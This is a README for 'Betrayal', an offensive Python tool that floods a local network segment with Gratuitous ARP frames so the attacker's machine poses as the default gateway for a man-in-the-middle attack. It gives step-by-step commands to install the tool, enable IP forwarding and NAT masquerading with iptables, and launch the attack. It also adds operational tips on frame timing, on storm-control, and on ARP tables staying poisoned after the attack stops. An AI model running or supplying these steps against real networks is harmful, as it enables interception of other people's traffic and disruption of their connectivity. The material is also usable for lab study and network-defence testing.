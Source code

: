 # Betrayal
Gratuitous ARP Injector

```
python3 Betrayal.py --help                                                                                                                      2 

 ▄▄▄▄   ▓█████▄▄▄█████▓ ██▀███   ▄▄▄     ▓██   ██▓ ▄▄▄       ██▓    
▓█████▄ ▓█   ▀▓  ██▒ ▓▒▓██ ▒ ██▒▒████▄    ▒██  ██▒▒████▄    ▓██▒    
▒██▒ ▄██▒███  ▒ ▓██░ ▒░▓██ ░▄█ ▒▒██  ▀█▄   ▒██ ██░▒██  ▀█▄  ▒██░    
▒██░█▀  ▒▓█  ▄░ ▓██▓ ░ ▒██▀▀█▄  ░██▄▄▄▄██  ░ ▐██▓░░██▄▄▄▄██ ▒██░    
░▓█  ▀█▓░▒████▒ ▒██▒ ░ ░██▓ ▒██▒ ▓█   ▓██▒ ░ ██▒▓░ ▓█   ▓██▒░██████▒
░▒▓███▀▒░░ ▒░ ░ ▒ ░░   ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░  ██▒▒▒  ▒▒   ▓▒█░░ ▒░▓  ░
▒░▒   ░  ░ ░  ░   ░      ░▒ ░ ▒░  ▒   ▒▒ ░▓██ ░▒░   ▒   ▒▒ ░░ ░ ▒  ░
 ░    ░    ░    ░        ░░   ░   ░   ▒   ▒ ▒ ░░    ░   ▒     ░ ░   
 ░         ░  ░           ░           ░  ░░ ░           ░  ░    ░  ░
      ░                                   ░ ░                                                                                                             
    
Gratuitous ARP Injector
Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: Betrayal.py [-h] --gateway GATEWAY --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --gateway GATEWAY     Choose gateway IP address
  --interface INTERFACE
                        Choose your interface for attack
  --mac EVILMAC         Specify your MAC Address
```

## Mechanics
It is a modification of ARP spoofing. The script will shout at the entire channel segment that your computer is the default gateway by sending Gratuitous ARP messages.
Gratuitous ARP is a special ARP frame that sends out an announcement that a new binding of MAC address and IP address has occurred. This can be used by an attacker to conduct an MITM attack, run a script against the router's IP address.

The scanner waits for the following arguments as input:
  - network interface (--interface)
  - your MAC Address (--mac)
  - IP address of gateway (--gateway)
  
## How to use it

1. Install dependencies
```
git clone https://github.com/in9uz/Betrayal
sudo pip3 install -r requirements.txt
```
2. Enable Forwarding, SNAT, NAT Helper 
```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
sudo modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
3. Attack
```
sudo python3 Betrayal.py --interface ethX --mac XX:XX:XX:XX:XX:XX --gateway <GW IP>
```
## Limitations
This attack is very noisy.
The tool does not restore the structure of ARP tables by itself. After the attack stops, the gateway's MAC address on the clients will change only after 5 minutes. Understand how ARP works.
GARP frames are sent every 800 ms. You can edit the script code and change the delay before sending the next frame, but be careful. There is a chance to strigger the Storm-Control system.
